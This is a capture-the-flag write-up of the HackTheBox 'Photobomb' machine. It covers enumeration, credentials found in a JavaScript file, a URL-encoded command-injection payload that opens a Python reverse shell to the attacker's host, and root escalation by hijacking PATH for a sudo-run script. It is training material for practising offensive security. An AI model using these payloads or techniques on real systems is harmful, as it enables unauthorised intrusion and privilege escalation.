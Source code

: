 ```yaml
---
title: "CTF Writeup: HTB - Photobomb"
categories:
   - Capture the Flag
   - Writeup
   - HackTheBox
---
```


The HackTheBox weekly machine named Photobomb was relatively easy to exploit. 

The first step involved discovering the login credentials by analyzing a JavaScript file. Once I gained access to an image manipulation panel using the credentials, I identified a command injection vulnerability and leveraged it to obtain execution and a shell. The privilege escalation phase was accomplished by executing a script as root, and there were two ways to achieve this. The first method involved exploiting a find command that was called without the full path, while the second method involved taking advantage of a disabled Bash builtin.

The machine [HTB - Photobomb](https://app.hackthebox.com/machines/500)


## Enumeration

```bash
┌──(root㉿kali)-[~]
└─# nmap -sV -sC 10.10.11.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-27 21:53 EST
Nmap scan report for 10.10.11.182
Host is up (0.028s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.83 seconds
```

Looks like ports [22, 80] are Open.

To take a look at T80 we should add our an entry to `/etc/hosts`.
```
┌──(root㉿kali)-[~]
└─# echo "10.10.11.182 photobomb.htb" >>/etc/hosts
```

![image](https://user-images.githubusercontent.com/29680216/221742245-98cf98fe-9d8f-47b1-8d36-abcaf89a3d63.png)

Clicking the `click here!` redirects to a page `/printer` which requires creds.

![image](https://user-images.githubusercontent.com/29680216/221742383-a7ee84aa-b3cb-4ee0-9ff3-0ec9d2633c34.png)

Manually inputing some creds showed no promise, but looking at the page source it looks to have a script it loads at the beginning of the page: `photobomb.js`.

Source: `photobomb.js`

![image](https://user-images.githubusercontent.com/29680216/221743317-817dd3e5-77e3-4eb5-8791-b33e6876127b.png)

Looks there's a possible username/password in the href.

![image](https://user-images.githubusercontent.com/29680216/221743975-e884e8a4-86c1-4c96-8258-b33b06139b7e.png)

Opening that URL looks to have let us login to the page.

![image](https://user-images.githubusercontent.com/29680216/221744204-3b16a0a9-8c48-4f74-a0ed-380b45a00b37.png)

Seems to have nothing of interest, but at the bottom there's a section for downloading an image.

![image](https://user-images.githubusercontent.com/29680216/221744437-e3a4b29a-8812-4b7e-93eb-55728b3e2561.png)

Using Burp Suite we can intercept when seeing what this button does.

![image](https://user-images.githubusercontent.com/29680216/221745177-15fb505c-8d94-4cad-95a8-2070664d309d.png)


## Exploitation

Using the below payload injection seems we were able to establish a shell.
- `[LHOST]` your local host.
- `[LPORT]` your local port.

```
%3bexport+RHOST%3d"[LHOST]"%3bexport+RPORT%3d[LPORT]%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'
```

Before sending the payload, ensure you're listening on the port above.

![image](https://user-images.githubusercontent.com/29680216/221747141-ae1063aa-9692-4d98-95c5-d4063fcbe7cf.png)

Bingo.

![image](https://user-images.githubusercontent.com/29680216/221747683-4ecaa6d7-6073-4687-9538-062c02926472.png)

Now we need to get ourselves a shell, so we must spawn one.

```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
wizard@photobomb:~/photobomb$ 
```

Bet. Now that we have a user shell, looks that we have a our first flag.

```
wizard@photobomb:~/photobomb$ ls ~/
ls ~/
photobomb  user.txt
wizard@photobomb:~/photobomb$ cat ~/user.txt    
cat ~/user.txt
a43c08bd49e712707dc3b67c766371d2
```

Now... Let's see what permissions we're working with.

```
wizard@photobomb:~/photobomb$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~/photobomb$ 
```

It looks like there's a script we can run as root: `/opt/cleanup.sh`. Seems we have read rights to view the contents of the script.

```
wizard@photobomb:~/photobomb$ ls -la /opt/cleanup.sh
ls -la /opt/cleanup.sh
-r-xr-xr-x 1 root root 340 Sep 15 12:11 /opt/cleanup.sh
```

Taking a peak that the scripts contents 

```
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

We can try to overwrite the `find` script and bypass roots `PATH` so that it uses our modfied script to give us a root shell.
```
wizard@photobomb:~/photobomb$ echo "bash" > find
echo "bash" > find
wizard@photobomb:~/photobomb$ chmod +x find
chmod +x find
wizard@photobomb:~/photobomb$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# 
```

Solid. Now we have the root flag.

```
root@photobomb:/home/wizard/photobomb# ls ~/
ls ~/
root.txt
root@photobomb:/home/wizard/photobomb# cat ~/root.txt   
cat ~/root.txt
78dfb63bc7a8d3a0ddd4a6495c723c86
root@photobomb:/home/wizard/photobomb# 
```


## Conclusion

This was a fun box. I enjoyed the manual enumeration and the exploitation. I'm not sure if this was intended, but I was able to get a root shell without having to modify the `find` script. I was able to overwrite the `find` script and then run the `sudo` command with the `PATH` set to the current directory. This allowed me to run my modified `find` script and get a root shell.

Lastly, **Hack the Planet**!